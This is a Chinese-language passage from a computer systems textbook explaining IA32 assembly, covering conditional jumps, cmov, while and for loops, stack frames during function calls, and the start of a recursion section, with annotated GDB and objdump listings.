这是我们之前看到的汇编代码的不同视图。在这里，我们可以看到与每条指令相关联的*地址*，但看不到*字节*。请注意，为了简化起见，这段汇编代码已做轻微编辑。通常用于函数创建/终止（即`push %ebp`和`mov %esp,%ebp`）以及为堆栈分配空间的指令被移除。根据惯例，GCC 将函数的第一个和第二个参数分别放置在`%ebp+8`和`%ebp+0xc`（或`%ebp+12`）的位置。为了清晰起见，我们将这些参数分别称为`x`和`y`。

让我们跟踪前面汇编代码片段的前几行。请注意，我们在这个例子中不会显式地绘制堆栈。我们将这部分留给读者作为练习，并鼓励你通过自己绘制堆栈来练习堆栈追踪技巧。

+   第一个`mov`指令将位于地址`%ebp+8`（第一个参数，`x`）的值复制到寄存器`%eax`中。指令指针（`%eip`）被设置为下一个指令的地址，或者是 0x08048414。

+   `cmp`指令将位置`%ebp+12`（第二个参数，`y`）的值与`x`进行比较，并设置适当的条件码标志寄存器。寄存器`%eip`向下一个指令的地址推进，即 0x08048417。

+   第三行的`jle`指令表示，如果`x`小于或等于`y`，则执行的下一条指令位于`<getSmallest+22>`（或`mov 0x8(%ebp),%eax`）的位置，且`%eip`应设置为地址 0x8048421。否则，`%eip`被设置为顺序中的下一条指令，即 0x8048419。

执行的下一条指令取决于程序是否遵循第 3 行（`<getSmallest+12>`）的分支（即是否执行跳转）。首先假设没有遵循分支。在这种情况下，`%eip`被设置为 0x8048419（即`<getSmallest+14>`），并执行以下指令序列：

+   `<getSmallest+14>`位置的`mov 0xc(%ebp),%eax`指令将`y`复制到寄存器`%eax`中。寄存器`%eip`向 0x804841f 推进。

+   `jmp`指令将寄存器`%eip`设置为地址 0x8048427。

+   执行的最后一条指令是 `ret` 指令，表示函数的结束。在这种情况下，`%eax` 包含 `y`，`getSmallest` 返回 `y`。

现在，假设分支是在 `<getSmallest+12>` 被采取的。换句话说，`jle` 指令将寄存器 `%eip` 设置为 0x8048421（即 `<getSmallest+22>`）。接下来要执行的指令是：

+   地址 0x8048421 处的 `mov 0x8(%ebp),%eax` 指令将 `x` 复制到寄存器 `%eax` 中。寄存器 `%eip` 随后进展到 0x8048427。

+   执行的最后一条指令是 `ret`，表示函数的结束。在这种情况下，`%eax` 包含 `x`，`getSmallest` 返回 `x`。

然后我们可以按如下方式注释前面的汇编：

```
0x8048411 <+6>:  mov 0x8(%ebp),%eax             #copy x to %eax

0x8048414 <+9>:  cmp 0xc(%ebp),%eax             #compare x with y

0x8048417 <+12>: jle 0x8048421 <getSmallest+22> #if x<=y goto<getSmallest+22>

0x8048419 <+14>: mov 0xc(%ebp),%eax             #copy y to %eax

0x804841f <+20>: jmp 0x8048427 <getSmallest+28> #goto <getSmallest+28>

0x8048421 <+22>: mov 0x8(%ebp),%eax             #copy x to %eax

0x8048427 <+28>: ret                            #exit function (return %eax)
```

将其反向翻译回 C 代码得到：

goto 形式

```
int getSmallest(int x, int y) {

    int smallest;

    if (x <= y) {

        goto assign_x;

    }

    smallest = y;

    goto done;

assign_x:

    smallest = x;

 done:

    return smallest;

}
```

翻译后的 C 代码

```
int getSmallest(int x, int y) {

    int smallest;

    if (x <= y) {

        smallest = x;

    }

    else {

        smallest = y;

    }

    return smallest;

}
```

在这些代码清单中，变量 `smallest` 对应于寄存器 `%eax`。如果 `x` 小于或等于 `y`，则执行语句 `smallest = x`，该语句与我们在 `goto` 形式的函数中对应的 `goto` 标签 `assign_x` 相关联。否则，将执行语句 `smallest = y`。`goto` 标签 `done` 用于表示应该返回 `smallest` 中的值。

请注意，前面的 C 语言翻译的汇编代码与原始的 `getSmallest` 函数略有不同。这些差异并不重要；仔细检查这两个函数可以发现，它们在逻辑上是等效的。然而，编译器首先将任何 `if` 语句转换为等效的 `goto` 形式，结果是略有不同但等效的版本。以下代码示例展示了标准的 `if` 语句格式及其等效的 `goto` 形式：

C 的 `if` 语句

```
if (<condition>) {

    <then_statement>;

}

else {

    <else_statement>;

}
```

编译器的等效 `goto` 形式

```
    if (!<condition>) {

        goto else;

    }

    <then_statement>;

    goto done;

else:

    <else_statement>;

done:
```

编译器将代码翻译成汇编时，会在条件为真时指定跳转。将这种行为与 `if` 语句的结构进行对比，在条件 *不* 满足时会发生“跳转”（到 `else`）。`goto` 形式捕获了这种逻辑差异。

考虑到原始的 `goto` 翻译版本的 `getSmallest` 函数，我们可以看到：

+   `x >= y` 对应于 `!*<condition>*`。

+   `smallest = x` 是 <else_statement>。

+   语句 `smallest = y` 是 <then_statement>。

+   函数中的最后一行是 `return smallest`。

用前面的注释重写函数的原始版本后，得到的代码是：

```

int getSmallest(int x, int y) {

    int smallest;

    if (x > y) {     //!(x <= y)

        smallest = y; //then_statement

    }

    else {

        smallest = x; //else_statement

    }

    return smallest;

}
```

这个版本与原始的 `getSmallest` 函数完全相同。请记住，在 C 语言中以不同方式编写的函数，最终可能会转换为相同的汇编指令集。

##### cmov 指令

我们要介绍的最后一组条件指令是 *条件移动* (`cmov`) 指令。`cmp`、`test` 和 `jmp` 指令实现了程序中的 *条件控制转移*。换句话说，程序的执行会分支到多个方向。这对于优化代码来说是非常棘手的，因为这些分支非常昂贵。

相比之下，`cmov` 指令实现了 *条件数据传输*。换句话说，条件语句的 <then_statement> 和 <else_statement> 都会被执行，数据会根据条件的结果被放入相应的寄存器。

C 语言的 *三元表达式* 通常会导致编译器在跳转指令的地方生成 `cmov` 指令。对于标准的 if–then–else 语句，三元表达式的形式是：

```
result = ( <condition>) ? <then_statement> : <else_statement>;
```

让我们使用这种格式，将 `getSmallest` 函数重写为一个三元表达式。请记住，这个新版本的函数行为和原始的 `getSmallest` 函数完全相同：

```
int getSmallest_cmov(int x, int y) {

 return x > y ? y : x;

}
```

虽然这看起来可能没有太大的变化，但让我们看看结果汇编代码。回想一下，第一和第二个参数（`x` 和 `y`）分别存储在堆栈地址 `%ebp` + 0x8 和 `%ebp` + 0xc。

```
0x08048441 <+0>:   push   %ebp              #save ebp

0x08048442 <+1>:   mov    %esp,%ebp         #update ebp

0x08048444 <+3>:   mov    0xc(%ebp),%eax    #copy y to %eax

0x08048447 <+6>:   cmp    %eax,0x8(%ebp)    #compare x with y

0x0804844a <+9>:   cmovle 0x8(%ebp),%eax    #if (x <= y) copy x to %eax

0x0804844e <+13>:  pop    %ebp              #restore %ebp

0x0804844f <+14>:  ret                      #return %eax
```

这个汇编代码没有跳转指令。在比较 `x` 和 `y` 之后，只有当 `x` 小于或等于 `y` 时，`x` 才会被移动到返回寄存器中。像跳转指令一样，`cmov` 指令的后缀表示条件移动发生的条件。表 8-15 列出了条件移动指令的集合。

**表 8-15：** cmov 指令

| **有符号** | **无符号** | **描述** |
| --- | --- | --- |
| `cmove` (`cmovz`) |  | 如果相等（==）则移动 |
| `cmovne` (`cmovnz`) |  | 如果不等（!=）则移动 |
| `cmovs` |  | 如果负数则移动 |
| `cmovns` |  | 如果非负则移动 |
| `cmovg` (`cmovnle`) | `cmova` (`cmovnbe`) | 如果大于（>）则移动 |
| `cmovge` (`cmovnl`) | `cmovae` (`cmovnb`) | 如果大于或等于（>=）则移动 |
| `cmovl` (`cmovnge`) | `cmovb` (`cmovnae`) | 如果小于（<）则移动 |
| `cmovle` (`cmovng`) | `cmovbe` (`cmovna`) | 如果小于或等于（<=）则移动 |

编译器在将跳转指令转换为 `cmov` 指令时非常小心，尤其是在涉及副作用和指针值的情况下。在这里，我们展示了两种等效的写法来定义函数 `incrementX`：

C 代码

```
int incrementX(int * x) {

    if (x != NULL) { //if x is not NULL

        return (*x)++; //increment x

    }

    else { //if x is NULL

        return 1; //return 1

    }

}
```

C 语言三元形式

```
int incrementX2(int * x){

    return x ? (*x)++ : 1;

}
```

每个函数接受一个整数指针作为输入，并检查它是否为 `NULL`。如果 `x` 不是 `NULL`，函数会递增并返回 `x` 解引用后的值。否则，函数返回值 1。

可能会有人认为 `incrementX2` 使用了 `cmov` 指令，因为它使用了三元表达式。然而，这两个函数生成的是完全相同的汇编代码：

```
0x80484cf <+0>:   push   %ebp

0x80484d0 <+1>:   mov    %esp,%ebp

0x80484d2 <+3>:   cmpl   $0x0,0x8(%ebp)

0x80484d6 <+7>:   je     0x80484e7 <incrementX2+24>

0x80484d8 <+9>:   mov    0x8(%ebp),%eax

0x80484db <+12>:  mov    (%eax),%eax

0x80484dd <+14>:  lea    0x1(%eax),%ecx

0x80484e0 <+17>:  mov    0x8(%ebp),%edx

0x80484e3 <+20>:  mov    %ecx,(%edx)

0x80484e5 <+22>:  jmp    0x80484ec <incrementX2+29>

0x80484e7 <+24>:  mov    $0x1,%eax

0x80484ec <+29>:  pop    %ebp

0x80484ed <+30>:  ret
```

回顾一下，`cmov` 指令 *执行条件语句的两个分支*。换句话说，`x` 无论如何都会被解引用。假设 `x` 是一个空指针。回想一下，解引用空指针会导致代码中的空指针异常，从而引发段错误。为了防止这种情况的发生，编译器选择了更安全的方式，使用了跳转指令。

#### 8.4.3 汇编中的循环

与 `if` 语句类似，汇编中的循环也使用跳转指令实现。然而，循环使得指令能够根据评估条件的结果被*重新访问*。

以下示例中所示的 `sumUp` 函数将从 1 到用户定义的整数的所有正整数相加。该代码故意写得不够优化，用来展示 C 语言中的 `while` 循环。

```
int sumUp(int n) {

    //initialize total and i

    int total = 0;

    int i = 1;

    while (i <= n) {  //while i is less than or equal to n

        total += i;   //add i to total

        i+=1;          //increment i by 1

 }

    return total;

}
```

使用 `-m32` 选项编译这段代码，并通过 GDB 反汇编后，得到以下汇编代码：

```
(gdb) disas sumUp

Dump of assembler code for function sumUp:

  0x804840b <+0>:   push   %ebp

  0x804840c <+1>:   mov    %esp,%ebp

  0x804840e <+3>:   sub    $0x10,%esp

  0x8048411 <+6>:   movl   $0x0,-0x8(%ebp)

  0x8048418 <+13>:  movl   $0x1,-0x4(%ebp)

  0x804841f <+20>:  jmp    0x804842b <sumUp+32>

  0x8048421 <+22>:  mov    -0x4(%ebp),%eax

  0x8048424 <+25>:  add    %eax,-0x8(%ebp)

  0x8048427 <+28>:  add   $0x1,-0x4(%ebp)

  0x804842b <+32>:  mov    -0x4(%ebp),%eax

  0x804842e <+35>:  cmp    0x8(%ebp),%eax

  0x8048431 <+38>:  jle    0x8048421 <sumUp+22>

  0x8048433 <+40>:  mov    -0x8(%ebp),%eax

  0x8048436 <+43>:  leave

  0x8048437 <+44>:  ret
```

再次提醒，本例中我们不会明确绘出栈的结构。但我们鼓励读者自己绘制栈的结构。

##### 前五条指令

该函数的前五条指令为函数执行准备栈：

```
0x804840b <+0>:   push   %ebp                 # save ebp on stack

0x804840c <+1>:   mov    %esp,%ebp            # update ebp (new stack frame)

0x804840e <+3>:   sub    $0x10,%esp           # add 16 bytes to stack frame

0x8048411 <+6>:   movl   $0x0,-0x8(%ebp)      # place 0 at ebp-0x8 (total)

0x8048418 <+13>:  movl   $0x1,-0x4(%ebp)      # place 1 at ebp-0x4 (i)
```

回想一下，栈中的位置用于存储函数中的*临时变量*。为了简化，我们将标记为 `%ebp - 0x8` 的位置称为 `total`，将 `%ebp - 0x4` 称为 `i`。`sumUp` 的输入参数位于 `%ebp` + 0x8 处。

##### 循环的核心

`sumUp` 函数中的接下来的七条指令代表了循环的核心：

```
0x804841f <+20>:  jmp    0x804842b <sumUp+32>  # goto <sumUp+32>

0x8048421 <+22>:  mov    -0x4(%ebp),%eax       # copy i to eax

0x8048424 <+25>:  add    %eax,-0x8(%ebp)       # add i to total (total+=i)

 0x8048427 <+28>:  add    $0x1,-0x4(%ebp)       # add 1 to i (i+=1)

0x804842b <+32>:  mov    -0x4(%ebp),%eax       # copy i to eax

0x804842e <+35>:  cmp    0x8(%ebp),%eax        # compare i with n

0x8048431 <+38>:  jle    0x8048421 <sumUp+22>  # if (i <= n) goto <sumUp+22>
```

第一条指令直接跳转到 `<sumUp+32>`，这将指令指针（`%eip`）设置为地址 0x804842b。

执行的下一条指令（`<sumUp+32>` 和 `<sumUp+35>`）将 `i` 的值复制到寄存器 `%eax` 并比较 `i` 与 `sumUp` 函数的第一个参数（即 `n`）。`cmp` 指令设置适当的条件码，为 `<sumUp+38>` 处的 `jle` 指令做准备。

`<sumUp+38>` 处的 `jle` 指令执行。如果 `i` 小于或等于 `n`，则进入分支，程序执行跳转到 `<sumUp+22>`，并将 `%eip` 设置为 0x8048421。随后，以下指令依次执行：

+   `mov -0x4(%ebp),%eax` 将 `i` 复制到寄存器 `%eax`。

+   `add %eax,-0x8(%ebp)` 将 `i` 加到 `total` 上（即 `total+=i`）。

+   `add $0x1,-0x4(%ebp)` 将 `i` 增加 1（即 `i+=1`）。

+   `mov -0x4(%ebp),%eax` 将 `i` 复制到寄存器 `%eax`。

+   `cmp 0x8(%ebp),%eax` 比较 `i` 与 `n`。

+   `jle 0x8048421 <sumUp+22>` 会在 `i` 小于或等于 `n` 时跳回到该指令序列的开头。

如果在 `<sumUp+38>` 处未进入分支（即 `i` *不* 小于或等于 `n`），则将 `total` 存入返回寄存器，并退出函数。

以下代码列表显示了 `sumUp` 函数的汇编和 `goto` 形式的 C 代码：

汇编

```
<sumUp>:

<+0>:   push   %ebp

<+1>:   mov    %esp,%ebp

<+3>:   sub    $0x10,%esp

<+6>:   movl   $0x0,-0x8(%ebp)

<+13>:  movl   $0x1,-0x4(%ebp)

<+20>:  jmp    <sumUp+32>

<+22>:  mov    -0x4(%ebp),%eax

<+25>:  add    %eax,-0x8(%ebp)

<+28>:  addl   $0x1,-0x4(%ebp)

<+32>:  mov    -0x4(%ebp),%eax

<+35>:  cmp    0x8(%ebp),%eax

<+38>:  jle    <sumUp+22>

<+40>:  mov    -0x8(%ebp),%eax

<+43>:  leave

<+44>:  ret
```

转换后的 `goto` 形式

```
int sumUp(int n) {

    int total = 0;

    int i = 1;

    goto start;

body:

    total += i;

    i += 1;

start:

    if (i <= n) {

        goto body;

    }

    return total;

}
```

上面的代码等价于以下没有 `goto` 语句的 C 代码：

```
int sumUp(int n) {

    int total = 0;

    int i = 1;

    while (i <= n) {

        total += i;

        i += 1;

    }

    return total;

}
```

##### 汇编中的 `for` 循环

`sumUp` 函数中的主要循环也可以写成一个 `for` 循环：

```
int sumUp2(int n) {

    int total = 0;             //initialize total to 0

    int i;

    for (i = 1; i <= n; i++) { //initialize i to 1, increment by 1 while i<=n

        total += i;            //updates total by i

    }

    return total;

}
```

该版本生成的汇编代码与我们的 `while` 循环示例相同。我们在此重复汇编代码，并为每一行加上其英文翻译：

```
0x8048438 <+0>:  push   %ebp                  # save ebp

0x8048439 <+1>:  mov    %esp,%ebp             # update ebp (new stack frame)

0x804843b <+3>:  sub    $0x10,%esp            # add 16 bytes to stack frame

0x804843e <+6>:  movl   $0x0,-0x8(%ebp)       # place 0 at ebp-0x8 (total)

 0x8048445 <+13>: movl   $0x1,-0x4(%ebp)       # place 1 at ebp-0x4 (i)

0x804844c <+20>: jmp    0x8048458 <sumUp2+32> # goto <sumUp2+32>

0x804844e <+22>: mov    -0x4(%ebp),%eax       # copy i to %eax

0x8048451 <+25>: add    %eax,-0x8(%ebp)       # add %eax to total (total+=i)

0x8048454 <+28>: addl   $0x1,-0x4(%ebp)       # add 1 to i (i+=1)

0x8048458 <+32>: mov    -0x4(%ebp),%eax       # copy i to %eax

0x804845b <+35>: cmp    0x8(%ebp),%eax        # compare i with n

0x804845e <+38>: jle    0x804844e <sumUp2+22> # if (i <= n) goto <sumUp2+22>

0x8048460 <+40>: mov    -0x8(%ebp),%eax       # copy total to %eax

0x8048463 <+43>: leave                        # prepare to leave the function

0x8048464 <+44>: ret                          # return total
```

为了理解为什么这段代码的 `for` 循环版本与 `while` 循环版本生成相同的汇编代码，请回忆一下，`for` 循环有以下表现形式：

```
for ( <initialization>; <boolean expression>; <step> ){

    <body>

}
```

并且等价于以下的 `while` 循环表示：

```
<initialization>

while (<boolean expression>) {

    <body>

    <step>

}
```

由于每个 `for` 循环都可以通过 `while` 循环来表示（参见第 35 页的“for 循环”），以下两个 C 程序是与之前的汇编代码等价的表示：

for 循环

```
int sumUp2(int n) {

    int total = 0;

    int i = 1;

    for (i; i <= n; i++) {

        total += i;

    }

    return total;

}
```

while 循环

```
int sumUp(int n){

    int total = 0;

    int i = 1;

    while (i <= n) {

        total += i;

        i += 1;

 }

    return total;

}
```

### 8.5 汇编中的函数

在上一节中，我们回顾了汇编中的简单函数。在本节中，我们将讨论在更大程序背景下，多个函数之间的交互。我们还将介绍一些与函数管理相关的新指令。

让我们首先复习一下调用堆栈是如何管理的。回想一下，`%esp` 是 *堆栈指针*，始终指向堆栈的顶部。寄存器 `%ebp` 代表基指针（也称为 *帧指针*），指向当前堆栈帧的底部。*堆栈帧*（也称为 *激活帧* 或 *激活记录*）是指为单个函数调用分配的堆栈区域。当前正在执行的函数总是位于堆栈的顶部，其堆栈帧称为 *活动帧*。活动帧的边界由堆栈指针（位于堆栈顶部）和帧指针（位于帧底部）决定。激活记录通常包含函数的局部变量和参数。

图 8-3 显示了 `main` 函数和它调用的名为 `fname` 的函数的堆栈帧。我们将 `main` 函数称为 *调用者* 函数，将 `fname` 称为 *被调用者* 函数。



*图 8-3：堆栈帧管理*

在 图 8-3 中，当前的活动帧属于被调用者函数（`fname`）。堆栈指针和帧指针之间的内存用于存储局部变量。随着局部值被推入和弹出堆栈，堆栈指针会发生变化。与此相反，帧指针相对恒定，指向当前堆栈帧的起始位置（底部）。因此，像 GCC 这样的编译器通常会相对于帧指针引用堆栈上的值。在 图 8-3 中，活动帧的下边界由 `fname` 的基指针限定，该基指针的堆栈地址为 0x418。存储在该地址的值是“保存的”`%ebp` 值（0x42c），它本身指示 `main` 函数的激活帧底部。`main` 函数的激活帧顶部由 *返回地址* 确定，返回地址指示程序地址，`main` 在被调用函数执行完毕后将在该地址恢复执行。

**警告 返回地址指向程序内存，而非堆栈内存**

请记住，程序的调用栈区域（栈内存）与代码区域（代码内存）是不同的。`%ebp`和`%esp`指向栈内存中的位置，而`%eip`指向*代码*内存中的位置。换句话说，返回地址是代码内存中的一个地址，而不是栈内存中的地址（见图 8-4）。



*图 8-4：程序地址空间的组成部分*

表 8-16 包含了编译器用于基本函数管理的几条额外指令。

**表 8-16：** 常见的函数管理指令

| **指令** | **翻译** |
| --- | --- |
| `leave` | 为离开一个函数准备栈。等同于： |
|  | `mov %ebp,%esp` |
|  | `pop %ebp` |
| `call addr <fname>` | 切换活动帧到被调用函数。等同于： |
|  | `push %eip` |
|  | `mov addr,%eip` |
| `ret` | 恢复活动帧到调用者函数。等同于： |
|  | `pop %eip` |

例如，`leave`指令是编译器用来恢复栈指针和帧指针的简写，它准备离开一个函数。当被调用函数执行完毕时，`leave`确保帧指针被*恢复*到先前的值。

`call`和`ret`指令在一个函数调用另一个函数的过程中起着重要作用。两者都修改了指令指针（寄存器`%eip`）。当调用函数执行`call`指令时，`%eip`的当前值被保存到栈中，表示返回地址，即在被调用函数执行完毕后，调用函数继续执行的程序地址。`call`指令还将`%eip`的值替换为被调用函数的地址。

`ret`指令将`%eip`的值恢复为保存在栈中的值，确保程序在调用函数指定的程序地址处继续执行。被调用函数返回的任何值都会存储在`%eax`中。`ret`指令通常是任何函数中执行的最后一条指令。

#### 8.5.1 追踪一个示例

运用我们对函数管理的知识，让我们追踪一下本章开始时介绍的代码示例。

```
#include <stdio.h>

int assign(){

    int y = 40;

    return y;

}

int adder(){

    int a;

    return a + 2;

}

int main(){

    int x;

    assign();

    x = adder();

    printf("x is: %d\n", x);

    return 0;

}
```

我们使用`-m32`标志编译代码，并用`objdump -d`查看底层汇编代码。后者命令会输出一个非常大的文件，包含很多我们不需要的信息。可以使用`less`和搜索功能提取`adder`、`assign`和`main`函数：

```
804840d <assign>:

 804840d:       55                      push   %ebp

 804840e:       89 e5                   mov    %esp,%ebp

 8048410:       83 ec 10                sub    $0x10,%esp

 8048413:       c7 45 fc 28 00 00 00    movl   $0x28,-0x4(%ebp)

 804841a:       8b 45 fc                mov    -0x4(%ebp),%eax

 804841d:       c9                      leave

 804841e:       c3                      ret

0804841f <adder>:

 804841f:       55                      push   %ebp

 8048420:       89 e5                   mov    %esp,%ebp

 8048422:       83 ec 10                sub    $0x10,%esp

 8048425:       8b 45 fc                mov    -0x4(%ebp),%eax

 8048428:       83 c0 02                add    $0x2,%eax

 804842b:       c9                      leave

 804842c:       c3                      ret

0804842d <main>:

 804842d:       55                      push   %ebp

 804842e:       89 e5                   mov    %esp,%ebp

 8048433:       83 ec 20                sub    $0x14,%esp

 8048436:       e8 d2 ff ff ff          call   804840d <assign>

 804843b:       e8 df ff ff ff          call   804841f <adder>

 8048440:       89 44 24 1c             mov    %eax,0xc(%esp)

 8048444:       8b 44 24 1c             mov    0xc(%esp),%eax

 8048448:       89 44 24 04             mov    %eax,0x4(%esp)

 804844c:       c7 04 24 f4 84 04 08    movl   $0x80484f4,(%esp)

 8048453:       e8 88 fe ff ff          call   80482e0 <printf@plt>

 8048458:       b8 00 00 00 00          mov    $0x0,%eax

 804845d:       c9                      leave

 804845e:       c3                      ret
```

每个函数都以一个符号标签开始，该标签对应程序中声明的函数名。例如，`<main>:`是`main`函数的符号标签。函数标签的地址也是该函数中第一条指令的地址。为了节省后续图示的空间，我们将地址截断为低 12 位。因此，程序地址 0x804842d 显示为 0x42d。

#### 8.5.2 追踪 `main`

图 8-5 显示了 `main` 函数执行前的栈的状态。



*图 8-5：执行 `main` 函数前，CPU 寄存器和调用栈的初始状态*

回想一下，栈是向较低地址增长的。在此示例中，`%ebp` 的地址为 0x140，`%esp` 的地址为 0x130（这两个值是为了本示例而虚构的）。寄存器 `%eax` 和 `%edx` 最初包含垃圾值。左上角的箭头表示当前正在执行的指令。最初，`%eip` 包含地址 0x42d，这是 `main` 函数中第一行代码的程序内存地址。让我们一起追踪程序的执行。



第一条指令将 `ebp` 的值压入栈中，保存了地址 0x140。由于栈是向较低地址增长的，栈指针 `%esp` 更新为 0x12c，这比 0x130 少了 4 个字节。寄存器 `%eip` 会指向下一条指令。



下一条指令（`mov %esp,%ebp`）将 `%ebp` 的值更新为与 `%esp` 相同。帧指针（`%ebp`）现在指向 `main` 函数栈帧的起始位置。`%eip` 将指向下一个指令。



`sub` 指令将 0x14 从栈指针地址中减去，“增长”了栈 20 个字节。寄存器 `%eip` 会前进到下一条指令，即第一条 `call` 指令。



`call <assign>` 指令将寄存器 `%eip` 中的值（表示 *下一* 个要执行的指令的地址）压入栈中。由于 `call <assign>` 后的下一条指令地址为 0x43b，这个值会作为返回地址压入栈中。回想一下，返回地址表示当程序执行返回到 `main` 时，程序应从哪个地址继续执行。

接下来，`call` 指令将 `assign` 函数的地址（0x40d）移入寄存器 `%eip`，表示程序执行应继续进入被调用的 `assign` 函数，而不是 `main` 中的下一条指令。



`assign` 函数中执行的前两条指令是每个函数执行时的常规记录操作。第一条指令将 `%ebp` 中存储的值（内存地址 0x12c）压入栈中。回想一下，这个地址指向 `main` 函数的栈帧开始位置。`%eip` 指向 `assign` 中的第二条指令。



下一条指令（`mov %esp,%ebp`）将 `%ebp` 更新为指向栈顶，标志着 `assign` 函数栈帧的开始。指令指针（`%eip`）会前进到 `assign` 函数中的下一条指令。



地址 0x410 处的 `sub` 指令将栈空间扩大了 16 字节，为栈帧中的局部值创建额外的空间，并更新了 `%esp`。指令指针再次跳转到 `assign` 函数中的下一条指令。



地址 0x413 处的 `mov` 指令将值 `$0x28`（即 40）移动到栈中地址 `-0x4(%ebp)` 处，这个位置距离帧指针上方四个字节。回忆一下，帧指针通常用于引用栈上的位置。`%eip` 继续执行 `assign` 函数中的下一条指令。



地址 0x41a 处的 `mov` 指令将值 `$0x28` 存入寄存器 `%eax` 中，该寄存器存储函数的返回值。`%eip` 继续执行 `assign` 函数中的 `leave` 指令。



到此时，`assign` 函数的执行几乎完成。接下来执行的指令是 `leave` 指令，它为从函数调用返回做准备。回忆一下，`leave` 相当于以下一对指令：

```
mov %ebp, %esp

pop %ebp
```

换句话说，CPU 用帧指针覆盖了栈指针。在我们的示例中，栈指针最初从 0x100 更新为 0x110。接下来，CPU 执行 `pop %ebp`，将位于 0x110 处的值（在我们的示例中，地址是 0x12c）放入 `%ebp` 中。回忆一下，0x12c 是 `main` 函数的栈帧起始地址。`%esp` 变为 0x114，`%eip` 指向 `assign` 函数中的 `ret` 指令。



`assign` 中的最后一条指令是 `ret` 指令。当 `ret` 执行时，返回地址会从栈中弹出，并加载到寄存器 `%eip` 中。在我们的示例中，`%eip` 会跳转到对 `adder` 函数的调用。

在此时，需要注意的一些重要事项：

+   栈指针和帧指针已经恢复为调用 `assign` 之前的值，表明 `main` 函数的栈帧再次成为活动栈帧。

+   之前活动栈帧中的旧值并未从栈中移除。它们仍然存在于调用栈中。



调用 `adder` *覆盖* 栈上旧的返回地址，替换为新的返回地址（0x440）。这个返回地址指向 `adder` 返回后执行的下一条指令，或 `mov %eax,0xc(%ebp)`。`%eip` 反映出 `adder` 中第一条将要执行的指令，它位于地址 0x41f。



`adder` 函数中的第一条指令将调用者的帧指针（即 `main` 函数中的 `%ebp`）保存在栈上。



下一条指令将 `%ebp` 更新为 `%esp` 的当前值，即地址 0x110。这两条指令共同建立了 `adder` 函数栈帧的起始位置。


地址 0x422 处的 `sub` 指令“扩展”了栈，增加了 16 字节。请再次注意，扩展栈并不会影响栈上之前创建的任何值。旧的值会遗留在栈上，直到被覆盖。



请特别注意接下来执行的指令：`mov $-0x4(%ebp), %eax`。这将栈上的一个*旧*值移入寄存器 `%eax`！这是因为程序员忘记在 `adder` 函数中初始化 `a` 变量的直接后果。



地址 0x428 处的 `add` 指令将 2 加到寄存器 `%eax` 中。回想一下，IA32 通过寄存器 `%eax` 传递返回值。最后两条指令等同于 `adder` 中的以下代码：

```
int a;

return a + 2;
```



执行完 `leave` 后，帧指针再次指向 `main` 的栈帧起始位置，地址 0x12c。栈指针现在存储着地址 0x114。



执行 `ret` 指令将返回地址从栈中弹出，恢复指令指针到 0x440，或者说恢复到 `main` 中下一条要执行的指令的地址。此时 `%esp` 的地址为 0x118。



`mov %eax,0xc(%esp)` 指令将 `%eax` 中的值放置在 `%esp` 下方 12 字节（即三个位置）的位置。



稍微跳过一点，地址 0x444 和 0x448 处的 `mov` 指令将 `%eax` 设置为存储在位置 `%esp+12`（或 0x2A）中的值，并将 0x2A 放置在栈顶下方一个位置（地址 `%esp + 4`，即 0x11c）。



下一条指令（`mov $0x80484f4, (%esp)`）将一个常数值（一个内存地址）复制到栈顶。这个内存地址 0x80484f4 存储了字符串 `"x is %d\n"`。指令指针跳转到对 `printf` 函数的调用（通过标签 `<printf@plt>` 表示）。



为了简洁起见，我们将不追踪 `printf` 函数，它是 `stdio.h` 的一部分。然而，我们从手册页（`man -s3 printf`）知道，`printf` 有以下格式：

```
int printf(const char * format, ...)
```

换句话说，第一个参数是一个指向字符串的指针，指定了格式，第二个及之后的参数指定了格式中使用的值。由地址 0x444–0x45c 指定的指令对应于 `main` 函数中的以下一行：

```
printf("x is %d\n", x);
```

当调用 `printf` 函数时：

+   一个返回地址，指定了在调用 `printf` 后执行的指令，这个地址被压入栈中。

+   `%ebp` 的值被压入栈中，且 `%ebp` 被更新为指向栈顶，标志着 `printf` 的栈帧的起始位置。

在某个时刻，`printf` 引用它的参数，这些参数是字符串 `"x is %d\n"` 和值 0x2A。回想一下，返回地址位于 `%ebp` 下方的位置 `%ebp` + 4。第一个参数位于 `%ebp` + 8（即直接在返回地址下方），第二个参数位于 `%ebp` + 12。

对于任何具有 *n* 个参数的函数，GCC 将第一个参数放置在位置 `%ebp` + 8，第二个放在 `%ebp` + 12，第 *n* 个参数放在位置 (`%ebp` + 8) + (4 × (*n –* 1))。

在调用 `printf` 后，值 0x2A 以整数格式输出给用户。因此，值 42 被打印到屏幕上！



在调用 `printf` 后，最后几条指令清理堆栈并准备从 `main` 函数干净地退出。首先，值 0x0 被放入寄存器 `%eax`，表示从 `main` 返回值 0。回想一下，程序返回 0 表示正常终止。



在执行完 `leave` 和 `ret` 后，堆栈和帧指针会恢复到 `main` 执行前的原始值。返回寄存器 `%eax` 中的 0x0，程序返回 0。

如果你仔细阅读了本节内容，你应该明白为什么我们的程序会打印出值 42。实际上，程序不小心使用了堆栈上的旧值，导致它以我们没有预料到的方式执行。虽然这个例子相对无害，但我们将在后续章节中讨论黑客如何滥用函数调用，使程序以真正恶意的方式行为不端。

### 8.6 递归

递归函数是一类特殊的函数，它们通过调用自身（也称为 *自引用* 函数）来计算一个值。与非递归函数一样，递归函数会为每次函数调用创建新的堆栈帧。与标准函数不同，递归函数包含对自身的函数调用。

让我们重新审视从 1 到 *n* 的正整数求和问题。在前面的章节中，我们讨论了 `sumUp` 函数来实现这个任务。以下代码展示了一个相关的函数 `sumDown`，它按逆序（*n* 到 1）加和，以及其递归等效函数 `sumr`：

迭代的

```
int sumDown(int n) {

    int total = 0;

    int i = n;

    while (i > 0) {

        total += i;

        i--;

    }

    return total;

}
```

递归

```
int sumr(int n) {

    if (n <= 0) {

        return 0;

    }

    return n + sumr(n-1);

}
```

递归函数 `sumr` 中的基本情况处理了任何小于 1 的 *n* 值，递归步骤将当前值 *n* 加到递归调用 `sumr`（值为 *n –* 1）的结果中。用 `-m32` 标志编译 `sumr` 并用 GDB 反汇编得到以下汇编代码：

```
0x0804841d <+0>:  push  %ebp                  # save ebp

0x0804841e <+1>:  mov   %esp,%ebp             # update ebp (new stack frame)

0x08048420 <+3>:  sub   $0x8,%esp             # add 8 bytes to stack frame

0x08048423 <+6>:  cmp   $0x0,0x8(%ebp)        # compare ebp+8 (n) with 0

0x08048427 <+10>: jg    0x8048430 <sumr+19>   # if (n > 0), goto <sumr+19>

0x08048429 <+12>: mov   $0x0,%eax             # copy 0 to eax (result)

0x0804842e <+17>: jmp   0x8048443 <sumr+38>   # goto <sumr+38>

